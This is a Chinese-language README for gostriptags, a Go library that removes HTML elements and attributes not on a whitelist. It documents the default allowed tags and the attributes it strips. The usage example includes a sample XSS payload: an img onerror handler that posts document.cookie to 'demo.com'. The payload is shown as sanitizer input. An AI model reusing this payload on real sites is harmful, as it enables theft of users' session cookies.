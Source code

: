 gostriptags 可以用来移除白名单以外的 HTML 元素和属性。

##用法
```go
package main

import (
	"striptags"
)

func main() {
	html_str = `
	<p> hello world </p>
	<a title="google" href="http://www.google.com" onclick="send(this);">google search</a>
	<ul source="mobile">
		<li>apple</li>
		<li active="active">htc</li>
		<li>meizu</li>
		<li>sony</li>
	</ul>
	<img src="http://logo.com" onerror="$.post('demo.com/cookie',{'cookie':document.cookie})" />
	`
	strip_tags := NewStripTags()
	html_clean, err := strip_tags.Fetch(html_str) // 返回过滤后的 HTML 字符串和错误信息
	fmt.Println(html_clean)
}
```

## 可选项

##是否转义非法的标签，默认：`false`
```go
strip_tags.EscapeInValid = true
```
----------------------------------------
##是否清除文本数据的空格和换行符，默认：`false`
```go
strip_tags.TrimSpace = true
```
----------------------------------------
##设置可允许的标签或标签对应的属性
```go
strip_tags.ValidTags = map[string]interface{}{
	"p":  true,
	"li": false, // 删除 li 元素的所有属性(除了全局允许的属性)
	"ul": true,  // 允许 ul 元素的所有属性(除了全局禁止的属性)
	"a":  map[string]interface{}{"href": true},
}
```
**默认允许的标签和属性**
```go
this.ValidTags = map[string]interface{}{
			"a": map[string]interface{}{
			    // 标签的属性配置可以是 bool 或者 func
				"href": func(v string) bool {
					// 如果函数返回 true，该属性会被删除。否则会被保留
					return strings.HasPrefix(v, "javascript:")
				},
			},
			"abbr":    true,
			"address": true,
			"article": true,

			"audio":      true,
			"b":          true,
			"blockquote": true,
			"br":         true,
			"button":     true,
			"caption":    true,
			"code":       true,
			"cite":       true,
			"div":        true,
			"dl":         true,
			"dt":         true,
			"dd":         true,
			"del":        true,
			"em":         true,

			"h1": true,
			"h2": true,
			"h3": true,
			"h4": true,
			"h5": true,
			"h6": true,

			"hr":     true,
			"i":      true,
			"kbd":    true,
			"li":     true,
			"ol":     true,
			"p":      true,
			"pre":    true,
			"small":  true,
			"span":   true,
			"strong": true,
			"sub":    true,

			"table": true,
			"thead": true,
			"tbody": true,
			"tfoot": true,
			"tr":    true,
			"th":    true,
			"td":    true,

			"time":  true,
			"u":     true,
			"ul":    true,
			"video": true,
			"img":   true,
		}
	}
```

----------------------------------------
##设置默认允许的属性
```go
strip_tags.ValidAttrs = map[string]bool{
	"title": true, "id": true,
	"class": true, "alt": true,
	"rel": true,
}
```
**默认允许的属性**
```go
this.ValidAttrs = map[string]bool{
	"title": true, "id": true,
	"class": true, "alt": true,
	"rel": true, "valign": true,
	"align": true, "rowspan": true,
	"colspan": true,
}
```
----------------------------------------
##设置默认清除的属性
```go
strip_tags.DisableAttrs = map[string]bool{
	"onclick": true, "onerror": true,
}
```
**默认清除的属性**
```go
this.DisableAttrs = map[string]bool{
	"onclick": true, "onerror": true,
}
```